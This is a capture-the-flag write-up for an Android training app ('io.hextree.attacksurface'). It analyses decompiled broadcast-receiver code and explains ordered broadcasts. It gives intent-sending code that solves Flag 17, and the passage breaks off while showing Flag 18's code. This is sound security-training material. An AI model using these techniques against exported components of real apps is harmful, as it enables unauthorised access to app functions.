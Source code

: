 ### Flag 17
#### Code analysis
```java
    public static String FlagSecret = "give-flag-17";

    public void onReceive(Context context, Intent intent) {
        Log.i("Flag17Receiver.onReceive", Utils.dumpIntent(context, intent));
        if (isOrderedBroadcast()) {
            if (intent.getStringExtra("flag").equals(FlagSecret)) {
                success(context, FlagSecret);
                return;
            }
            Bundle bundle = new Bundle();
            bundle.putBoolean("success", false);
            setResult(0, "Flag 17 Completed", bundle);
        }
    }
```

The setup is like the pervious but we need to send it as ordered broadcast ?

##### Non-ordered vs. Ordered Broadcasts

In non-ordered mode, broadcasts are sent to all interested receivers “at the same time”. This basically means that one receiver can not interfere in any way with what other receivers will do neither can it prevent other receivers from being executed. One example of such broadcast is the [ACTION_BATTERY_LOW](http://developer.android.com/reference/android/content/Intent.html#ACTION_BATTERY_LOW) one.

In ordered mode, broadcasts are sent to each receiver in order (controlled by the [android:priority](http://developer.android.com/guide/topics/manifest/intent-filter-element.html#priority) attribute for the [intent-filter](http://developer.android.com/guide/topics/manifest/intent-filter-element.html) element in the manifest file that is related to your receiver) and one receiver is able to abort the broadcast so that receivers with a lower priority would not receive it (thus never execute). An example of this type of broadcast (and one that will be discussing in this document) is the [ACTION_NEW_OUTGOING_CALL](http://developer.android.com/reference/android/content/Intent.html#ACTION_NEW_OUTGOING_CALL) one.


#### Solution
```java
Intent intent = new Intent();  
intent.putExtra("flag","give-flag-17");  
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag17Receiver"); 
sendOrderedBroadcast(intent, null);
```

### Flag 18
#### Code analysis
```java
   public static String SECRET_FLAG = "giving-out-flags";
 
   public void onCreate(Bundle bundle) {
        Intent intent = new Intent("io.hextree.broadcast.FREE_FLAG");
        intent.putExtra("flag", this.f.appendLog(this.flag));
        intent.addFlags(8);
        sendOrderedBroadcast(intent, null, new BroadcastReceiver() { 
            @Override // android.content.BroadcastReceiver
            public void onReceive(Context context, Intent intent2) {
                String resultData = getResultData();
                Bundle resultExtras = getResultExtras(false);
                int resultCode = getResultCode();
                Log.i("Flag18Activity.BroadcastReceiver", "resultData " + resultData);
                Log.i("Flag18Activity.BroadcastReceiver", "resultExtras " + resultExtras);
```